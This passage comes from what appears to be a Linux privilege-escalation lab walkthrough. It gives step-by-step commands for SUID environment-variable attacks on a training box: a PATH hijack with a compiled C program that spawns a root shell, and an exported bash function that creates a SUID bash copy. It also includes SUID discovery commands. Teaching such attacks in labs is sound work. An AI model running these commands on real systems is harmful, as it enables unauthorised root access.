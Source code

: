 **Target box** – Terminal 2

1. Once logged in, type: `su root`
2. As root, type the following: `invoke-rc.d nginx rotate >/dev/null 2>&1`
3. Switch back to the previous terminal.

**Target box** – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: `id`

# 11. Privilage Escalation -  SUID (Environment Variables #1) 
## Detection

**Target box**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env`
4. From the output, notice the functions used by the binary.

## Exploitation

**Target box**

1. In command prompt type:
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
2. In command prompt type: `gcc /tmp/service.c -o /tmp/service`
3. In command prompt type: `export PATH=/tmp:$PATH`
4. In command prompt type: `/usr/local/bin/suid-env`
5. In command prompt type: `id`

# 12. Privilage Escalation - SUID (Environment Variables #2)
## Detection

**Target box**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env2`
4. From the output, notice the functions used by the binary.

## Exploitation Method #1

**Target box**

1. In command prompt type:
`function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
2. In command prompt type:
`export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`
